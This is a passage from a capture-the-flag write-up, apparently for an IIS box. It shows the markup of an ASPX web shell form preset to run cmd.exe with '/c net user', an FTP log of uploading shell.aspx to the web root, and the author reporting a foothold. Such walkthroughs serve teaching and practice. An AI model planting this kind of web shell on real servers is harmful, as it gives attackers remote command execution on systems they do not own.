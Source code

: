 ```html  
<form runat="server">
<p><asp:Label id="L_p" runat="server" width="80px">Program</asp:Label>
<asp:TextBox id="xpath" runat="server" Width="300px">c:\windows\system32\cmd.exe</asp:TextBox>
<p><asp:Label id="L_a" runat="server" width="80px">Arguments</asp:Label>
<asp:TextBox id="xcmd" runat="server" Width="300px" Text="/c net user">/c net user</asp:TextBox>
<p><asp:Button id="Button" onclick="runcmd" runat="server" Width="100px" Text="Run"></asp:Button>
<p><asp:Label id="result" runat="server"></asp:Label>
</form>
</body>
</html>

```
I will Upload it without any issues

```sh
ftp> put shell.aspx
local: shell.aspx remote: shell.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1585 bytes sent in 0.00 secs (6.6589 MB/s)
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
09-28-23  08:56AM                 1585 shell.aspx
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
```
### Getting our foothold

Once the webshell is uploaded, I can visit the site and call it directy on my browser using the name i gave it.

![Getting our foothold](/assets/img/devel/shell_works.png)
